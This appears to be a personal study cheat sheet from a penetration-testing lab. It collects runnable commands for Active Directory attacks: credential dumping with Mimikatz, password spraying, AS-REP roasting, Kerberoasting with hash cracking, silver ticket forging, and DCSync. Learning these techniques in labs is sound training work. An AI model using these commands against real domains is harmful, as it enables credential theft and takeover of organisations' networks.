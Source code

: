 
| [[11 Active Directory-Authentication\|Active Directory: Authentication]] | [[11 Active Directory-Authentication#Cached AD Credentials\|Cached AD Credentials]] | [[11 Active Directory-Authentication#Password Attacks\|Password Attacks]] | [[11 Active Directory-Authentication#AS-REP Roasting\|AS-REP Roasting]] |
| --------------------------------------------------------------------- | -------------------------------------------------------------------------------- | ---------------------------------------------------------------------- | -------------------------------------------------------------------- |
| [[11 Active Directory-Authentication#Kerberoasting\|Kerberoasting]]      | [[11 Active Directory-Authentication#Silver Tickets\|Silver Tickets]]               | [[11 Active Directory-Authentication#DCSync Attack\|DCSync Attack]]       |                                                                      |
## Cached AD Credentials
```shell
# Run PowerShell as Admin, Run Mimikatz with standard setup
PS C:\Users\stephanie> .\mimikatz.exe
mimikatz> privilege::debug

# Dump credentials of all logged-on users
mimikatz> sekurlsa::logonpasswords

# Send a SMB request to cache a service ticket
PS C:\Users\stephanie> dir \\web04.corp.com\backup

# Check mimikatz to show ticket (abused later)
mimikatz> sekurlsa::tickets
```

## Password Attacks
```shell
# View account policy
PS C:\Users\stephanie> net accounts
# Lockout Threshold = N-1 times before triggering lockout
# Lockout observation window = N minutes before additional attempts (should reset)

# Password Spraying Attack with PS Script
PS C:\Users\stephanie> powershell -ep bypass
PS C:\Users\stephanie> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin

# Password Spraying Attack on SMB with crackmapexec
kali@kali:~$ crackmapexec smb <TARGET_IP> -u <USER/USERLIST.txt> -p "Nexus123!" -d corp.com --continue-on-success
# If (Pwned!), user has admin priv

# Password Spraying Attack with Kerbrute (cross-platform)
PS C:\Users\stephanie> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

# Other functions of Kerbrute
kali@kali:~$ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64

kali@kali:~$ ./kerbrute_linux_amd64 userenum /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt --dc <dc-ip> --domain <domain>

kali@kali:~$ ./kerbrute_linux_amd64 userenum /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --dc <dc-ip> --domain <domain>

```
## AS-REP Roasting
```shell
# AS-REP on Kali with impacket-GetNPUsers
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.149.70 -request -outputfile hashes.asreproast corp.com/pete
# use domain controller IP, target must be in domain/user format, with password prompted after

# AS=REP Roasting on Windows with Rubeus
PS C:\Users\stephanie> .\Rubeus.exe asreproast /nowrap
# Automatically identifies vulnerable user accounts

# Use hashcat to crack the AS-REP hash
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Manually identify users without Kerberos Preauth
PS C:\Users\stephanie> powershell -e bypass
PS C:\Users\stephanie> Import-Module .\PowerView.ps1
PS C:\Users\stephanie> Get-Domainuser -PreauthNotRequired | select name

# Manually idenitfy users without Kerberos Preauth (on Kali)
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.149.70 corp.com/pete

# If current user has GenericWrite or GenericAll on other AD accounts, can use to reset passwords or modify UAC value to not require Kerberos Preauth
```
## Kerberoasting
```shell
# Kerberoasting using Rubeus (Windows)
PS C:\Users\stephanie> .\Rebeus.exe kerberoast /outfile:hashes.kerberoast
# Will automatically identify all SPNs linked with domain user e.g. iis_service

# Kerberoasting using impacket-GetUserSPNs (Kali)
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.149.70 -outputfile hashes.kerberoast corp.com/pete
# use domain controller IP, if error Clock skew too great, sync time of Kali machine to the DC using ntpdate or rdate

# Crack the TGS-REP hash with hashcat
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# If current user has GenericWrite/GenericAll on other AD accounts, we can set an SPN for a target user, kerberoast the account and crack the password hash (Targeted Kerberoasting)
```
## Silver Tickets
```shell
# Requires: SPN Password Hash, Domain SID, Target SPN
# Get iis_service user's NTLM hash via Mimikatz
mimikatz> privilege::debug
mimikatz> sekurlsa::logonpasswords

# Get domain SID (can take from previous output)
PS C:\Users\jeff> whoami /user
# Omit RID of the user (last - onwards)

# Create silver ticket with Mimikatz
mimikatz> kerberos::golden /sid:<DOMAIN_SID> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<SPN_NTLM_HASH> /user:jeffadmin
# use existing domain user with permissions to copy/impersonate

# Verify ticket in memory
PS C:\Users\stephanie> klist

# Attempt access e.g. websvr
PS C:\Users\stephanie> iwr -UseDefaultCredentials http://web04
```
## DCSync Attack
```shell
# Use mimikatz to run dcsync attack to fetch NTLM hash (Requires Admin)
mimikatz> lsadump::dcsync /user:corp/dave
# Able to obtain any user password hash in the domain, even Administrator

# DCSync attack on Kali using impacket-secretsdump
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"PASSWORD"@192.168.149.70
# -just-dc-user = Target username
# Credential format = domain/user:password@DC_IP
```